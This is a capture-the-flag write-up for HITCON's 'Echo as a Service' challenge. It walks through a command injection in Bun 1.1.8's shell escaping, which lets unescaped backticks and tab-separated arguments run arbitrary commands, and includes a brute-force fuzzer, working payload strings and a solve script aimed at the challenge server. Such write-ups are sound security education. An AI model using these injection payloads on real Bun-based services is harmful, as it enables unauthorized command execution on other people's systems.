









# Echo as a Service [238pts]

Execute `/readflag give me the flag` to get the flag.

[eaas-a9e76a905cbde9556353890f49ca9bc6bcd3aade.tar.gz](eaas-a9e76a905cbde9556353890f49ca9bc6bcd3aade.tar.gz)

You might have seen this message from me:



It wouldn't take long to write two lines of solve.py right? Let's start!

First let's create a minimal environment for easy testing:

```sh
> npm i -g bun@1.1.8
> bun index.js
listening on http://localhost:1337
```

Great, let's try to submit something



As expected, it acts as an echo service

```js
const output = await $`echo ${msg}`.text();
```



So what if instead of `echo Hello!` we could sneak in a `echo hi | /readflag`?

For convenience instead of requesting through browser I will write a simple script instead

```js
import { $ } from "bun";

let cmd = "hi | /readflag give me the flag"
await $`echo ${cmd}`;
await $`echo hi | /readflag give me the flag`;
```


```sh
> bun req.js
hi | /readflag give me the flag
hitcon{placeholder}
```

But why didn't the first command work? A quick google search about bun shell lands us on this page: https://bun.sh/blog/the-bun-shell#introducing-the-bun-shell

Quote: For security, all **template** variables are escaped:

```js
const filename = "foo.js; rm -rf /";

// This will run `ls 'foo.js; rm -rf /'`
const results = await $`ls ${filename}`;

console.log(results.exitCode); // 1
console.log(results.stderr.toString()); // ls: cannot access 'foo.js; rm -rf /': No such file or directory
```

Hmm interesting, so how exactly do they escape the template variables? Again a quick google search did the trick: https://bun.sh/docs/runtime/shell#escape-escape-strings

Quote: `$.escape (escape strings)` Exposes Bun Shell's escaping logic as a function:

```js
import { $ } from "bun";

console.log($.escape('$(foo) `bar` "baz"'));
// => \$(foo) \`bar\` \"baz\"
```

Let's implement this into our test script to see the escaped string in `req.js`

```js
import { $ } from "bun";

let cmd = "hi | /readflag give me the flag"
console.log($.escape("hi"));
console.log($.escape(cmd));
await $`echo ${cmd}`;
```
```sh
> bun req.js
hi
"hi | /readflag give me the flag"
hi | /readflag give me the flag
```

As we can see, bun shell has added a double quote around our string, which is the reason why the exploit didn't work

Fortunate for us, bun is open sourced. Let's try to search for the source code of bun shell at the time of release 1.1.8: https://github.com/oven-sh/bun/tree/bun-v1.1.8

Implementation of bun shell is located in `shell/shell.zig`: https://github.com/oven-sh/bun/blob/bun-v1.1.8/src/shell/shell.zig



We can try to go through newer version and see which bug has been fixed. In this case, I picked version 1.1.9 and pressed history



An interesting PR caught our eyes: [Fix backtick escaping and add more tests](https://github.com/oven-sh/bun/pull/10980)

Quote:

```
What does this PR do?
This fixes shell not escaping a string with backticks and no other special characters
Also added more tests for shell escaping
```

We got something! They said backticks aren't escaped!!

```js
import { $ } from "bun";

let cmd = "`whoami`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

I don't know whoami but apparently bun does :O

```sh
> bun req.js
`whoami`
nullchilly
```

This means that we can just read the flag and the challenge is done

```js
import { $ } from "bun";

let cmd = "`/readflag give me the flag`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

..is what I wanted to say, but reality is often disappointing :(

```sh
> bun req.js
"\`/readflag give me the flag\`"
`/readflag give me the flag`
```

What exactly happened here? Skeeming through [the PR](https://github.com/oven-sh/bun/pull/10980/files#diff-8944ca8e3b75efc062f0f4b956bc5fa2aa66b2367c80560beedf1dbb7e1b29b3R4005) we can see this interesting diff:
```diff
/// Characters that need to escaped
- const SPECIAL_CHARS = [_]u8{ '$', '>', '&', '|', '=', ';', '\n', '{', '}', ',', '(', ')', '\\', '\"', ' ', '\'' };
+ const SPECIAL_CHARS = [_]u8{ '~', '[', ']', '#', ';', '\n', '*', '{', ',', '}', '`', '$', '=', '(', ')', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '|', '>', '<', '&', '\'', '"', ' ', '\\' };
```

As you can see, they did in fact fix the backticks escaping in `1.1.9`. However, spaces was unfortunately already escaped in `1.1.8`

```js
import { $ } from "bun";

let cmd = "`/readflag`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

Removing spaces from the cmd did in fact bypass the bun escape

```sh
❯ bun req.js
`/readflag`
Usage: /readflag give me the flag
```

But `/readflag` wanted us to give 4 parameters and parameters              need             some           spaces

One maybe thinking of using `\t` instead of space

```js
import { $ } from "bun";

let cmd = "`/readflag\tgive\tme\tthe\tflag`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

Unfortunately, bun has a different idea and thought that is a single binary :<

```sh
> bun req.js
`/readflag      give    me      the     flag`
bun: command not found: /readflag       give    me      the     flag
```

Ok so we can't use spaces, we can still try a lot of stuff right? Can't we just do `cat</flag`?:

```js
import { $ } from "bun";

let cmd = "`cat</flag`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
await $`echo ${"`cat</etc/os-release`"}`;
```



Unfortunately we don't have permission to read from `/flag` directly. We're forced to read it through `/readflag` instead

```sh
❯ bun req.js  
`cat</flag`
/bin/sh: 1: cannot open /flag: Permission denied
NAME="Arch Linux" PRETTY_NAME="Arch Linux" ID=arch BUILD_ID=rolling ANSI_COLOR="38;2;23;147;209" HOME_URL="https://archlinux.org/"
```

At this point I'm out of ideas, I've gotten a "shell" but I can't get anything to work.

What do you do at the end of the world? Are you busy? Will you bruteforce to find patterns?

"When in doubt, fuzz it out" - [GalloDaSballo, 2024](https://x.com/GalloDaSballo/status/1766043245048451495)

`brute.js`
```js
import { $ } from "bun";

const startCharCode = 33;
const endCharCode = 126;

let characters = [];
for (let i = startCharCode; i <= endCharCode; i++) {
  characters.push(String.fromCharCode(i));
}

const totalChars = characters.length;

let lim = 0;
for (let i = 0; i < totalChars; i++) {
  for (let j = 0; j < totalChars; j++) {
    for (let k = 0; k < totalChars; k++) {
      for (let l = 0; l < totalChars; l++) {
        for (let m = 0; m < totalChars; m++) {
          let combination = characters[i] + characters[j] + characters[k] + characters[l] + characters[m];
          if ($.escape(combination) == combination) {
            try {
              lim++;
              console.log(combination);
              await $`echo ${combination}`;
            } catch {
            }
          }
        }
      }
    }
  }
}
```

Why think for hours when you can get the computer to do it for you! This is when I have the idea of just brute-forcing the payload :)

I tried to run all possible payloads with size = 5, each char in the range '!' to '~' (33 to 126)
Also I didn't even write this brute myself, chatgpt did :)

This is what happens when I ran `bun brute.js`



A LOT of files appeared out of thin air. At this point I was very happy one of the payload found their way to write to files :D

However, we still need to find WHICH payload actually triggered this

In order to prevent my work folder getting littered with random files again, I created a test folder, cd into it and run `bun ../brute.js` instead and started binary searching for LIM

```js
const LIM = 59140

import { $ } from "bun";

const startCharCode = 33;
const endCharCode = 126;

let characters = [];
for (let i = startCharCode; i <= endCharCode; i++) {
  characters.push(String.fromCharCode(i));
}

const totalChars = characters.length;

let lim = 0;
for (let i = 0; i < totalChars; i++) {
  for (let j = 0; j < totalChars; j++) {
    for (let k = 0; k < totalChars; k++) {
      for (let l = 0; l < totalChars; l++) {
        for (let m = 0; m < totalChars; m++) {
          let combination = characters[i] + characters[j] + characters[k] + characters[l] + characters[m];
          if ($.escape(combination) == combination) {
            try {
              lim++;
              if (lim >= LIM) {
                await new Promise(resolve => setTimeout(resolve, 1000));
              }
              console.log(combination);
              await $`echo ${combination}`;
            } catch {
            }
          }
        }
      }
    }
  }
}
```



If test folder is empty after `rm *; bun ../brute.js` then `check(LIM) = true` otherwise `check(LIM) = false`

I managed to find that `LIM = 59140`, and the payload that worked was `!!1<?`

```js
import { $ } from "bun";

let cmd = "!!1<?"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

Low and behold `echo !!1<?` worked, a wild `?` appeared with the content `!!`

```sh
> bun req.js  
!!1<?
> cat ?      
!!
```


But what can we do with an ability to write? The first thing that came to my mind was create a bash script:

```js
import { $ } from "bun";

let cmd = "/readflag give me the flag 1< flag.sh"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

Huh? What happened here, isn't `echo /readflag give me the flag 1< flag.sh` supposed to work?

```sh
> bun req.js
"/readflag give me the flag 1< flag.sh"
/readflag give me the flag 1< flag.sh

> cat flag.sh 
cat: flag.sh: No such file or directory
```


Apparently I forgot that bun shell escaped spaces, the last time we tried `\t` it didn't work but why not try our luck again?

```js
import { $ } from "bun";

let cmd = "/readflag\tgive\tme\tthe\tflag1<flag.sh"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

FINALLY IT WORKED!

```sh
> bun req.js 
/readflag       give    me      the     flag1<flag.sh

> cat flag.sh
/readflag       give    me      the     flag
```

Now all that is left is enjoy the glory together with `sh`

```js
import { $ } from "bun";

let cmd = "`sh<flag.sh`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

We have successfully solved this problem locally .-.

```sh
> bun req.js
`sh<flag.sh`
hitcon{placeholder}
```

Now let's launch our instance and catch the fish!



```py
cmd = ['/readflag\tgive\tme\tthe\tflag1<flag.sh', '`sh<flag.sh`']
[print(__import__("requests").post("http://eaas.chal.hitconctf.com:30951/echo", data={'msg': cmd[x]}).text) for x in range(2)]
```

```sh
> python solve.py

hitcon{i_found_this_bug_during_LINECTF_but_unfortunately_it_became_1day_challenge_a_few_months_ago}
```